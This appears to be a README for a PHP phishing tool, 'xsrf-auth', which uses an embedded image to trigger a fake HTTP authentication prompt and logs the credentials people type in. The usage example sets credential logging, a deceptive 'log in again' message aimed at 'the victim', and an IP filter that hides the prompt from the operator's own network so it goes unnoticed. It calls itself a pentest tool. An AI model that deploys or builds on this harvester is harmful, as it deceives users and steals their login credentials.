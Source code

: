xsrf-auth
=========

Shows a WWW-Authenticate message on embedded image and saves user credentials to logfile. Originally written for pentest.


Example: 


<pre>

require_once('imgauth.lib.php');

$auth = new imgauth;


//log user credentials
$auth->enable_log = true;

//message shown to the victim
$auth->message = "Please log in again. This is for your own security.";

//if accessed by these ip's, just display image
$auth->disable_pattern = "/^192\.168\.178.+$/";

//execute
$auth->exec();

</pre>
